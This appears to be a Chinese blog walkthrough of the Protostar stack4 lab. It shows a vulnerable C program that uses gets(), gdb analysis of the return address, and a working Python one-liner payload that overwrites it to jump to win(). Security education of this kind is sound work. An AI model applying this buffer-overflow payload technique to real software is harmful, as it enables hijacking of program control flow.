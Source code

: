 ~~~
int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
~~~

这个程序很简单，就不多做介绍了，和上一个一模一样，只不过将设置的fp函数指针去掉了，我们需要自己控制程序指针进行跳转到win函数地址

直接进行程序动态分析
## 程序动态分析
使用gdb打开程序，输入指令查看汇编代码
~~~
set disassembly-flavor intel
disassemble main
~~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/6603edf8f151431a95aaad3856e1b9d0.png)

代码很少，我们要做的只有一件事，控制ret指令的返回地址，让程序跳转到win函数地址执行参数
## leave和ret指令
在汇编语言中，ret指令用于从子程序返回到调用它的主程序。当执行到ret指令时，程序会跳转到主代码的地址，继续执行主程序的代码

在汇编语言中，leave指令用于清空栈，它会清除我们这次运行程序时获取的用户输入之类的，还原之前的状态

我们在leave指令的地址下一个断点
~~~
b *0x0804841d
~~~

运行程序，然后随便输入一些字符，然后查看栈里的内容，记录下来，之后会用到

![在这里插入图片描述](https://img-blog.csdnimg.cn/82bfce200f744bf38b7fd2e0e53bd3ed.png)


然后输入n执行下一个指令，让ret指令执行，输入info registers查看寄存器的值

![在这里插入图片描述](https://img-blog.csdnimg.cn/df91929baf4442fbb64c93c7e3c2d287.png)

当前eip寄存器的值为0xb7eadc76，也就是说，执行了rat指令后，程序回到了0xb7eadc76继续执行之后的命令

但是返回的地址也是在栈中的

![在这里插入图片描述](https://img-blog.csdnimg.cn/b61a24b8fa5043688e52565c80a0cc75.png)

根据计算，我们需要输入76个字符+win函数地址才能覆盖原来ret返回的地址，让程序跳转到win函数地址处执行

~~~
python -c "print('A'*76+'\xf4\x83\x04\x08')" | ./stack4
~~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/a720b73325e543778112f38a29c6b44b.png)

成功破解
